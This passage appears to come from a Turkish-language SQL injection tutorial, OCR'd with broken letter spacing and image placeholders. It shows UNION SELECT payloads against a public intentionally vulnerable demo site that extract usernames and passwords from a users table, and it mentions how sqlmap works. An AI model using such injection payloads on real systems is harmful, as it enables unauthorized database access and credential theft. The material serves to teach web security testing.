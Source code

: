 ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.072.jpeg)

yeni bir sorgu:

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1 UNI ON ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.073.png) SELECT  1, 2, 3, 4, 5, 6, uname, 8, 9, 10, 11  FROM user s

![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.074.png)

yeni bir sorgu, artık sqlmap’in nasıl çalıştığını da anlayabilmekteyiz.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1 ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.075.png)

UNI ON  SELECT  1, 2, 3, 4, 5, 6, concat ( uname, ' : i l ker : ' , pass) , 8, 9, 10, 11  FROM user s
